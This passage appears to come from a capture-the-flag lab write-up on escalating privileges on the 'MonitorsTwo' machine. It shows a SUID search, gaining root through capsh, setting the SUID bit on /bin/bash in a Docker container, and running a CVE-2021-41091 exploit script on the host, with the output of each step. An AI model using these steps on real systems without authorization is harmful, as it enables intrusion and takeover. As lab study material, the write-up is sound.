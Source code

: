 * We need to gain root access on docker to start the exploit.
* &#x20;Searched for SUID and found capsh

{% code overflow="wrap" %}
```sh
www-data@50bca5e748b0:/var/www/html$ find / -perm -u=s -type f 2>/dev/nul

 /usr/bin/gpasswd

 /usr/bin/passwd

 /usr/bin/chsh

 /usr/bin/chfn

 /usr/bin/newgrp

 /sbin/capsh

 /bin/mount

 /bin/umount

 /bin/sul
```
{% endcode %}

* Exploited it from [GTFOBINS](https://gtfobins.github.io/gtfobins/capsh/#suid)

```sh
www-data@50bca5e748b0:/var/www/html$ capsh --gid=0 --uid=0 --

Get a better shell
/usr/bin/script -qc /bin/bash /dev/null
```

* Give SUID permission to /bin/bash

```
root@50bca5e748b0:/var/www/html# chmod u+s /bin/bash
```

* Entered yes on the exploit on marcus machine.

{% code overflow="wrap" %}
```
marcus@monitorstwo:/tmp$ ./CVE-2021-41091.sh

 [!] Vulnerable to CVE-2021-41091

 [!] Now connect to your Docker container that is accessible and obtain root access !

 [>] After gaining root access execute this command (chmod u+s /bin/bash)

 

 Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes

 [!] Available Overlay2 Filesystems:

 /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged

 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

 

 [!] Iterating over the available Overlay2 filesystems !

```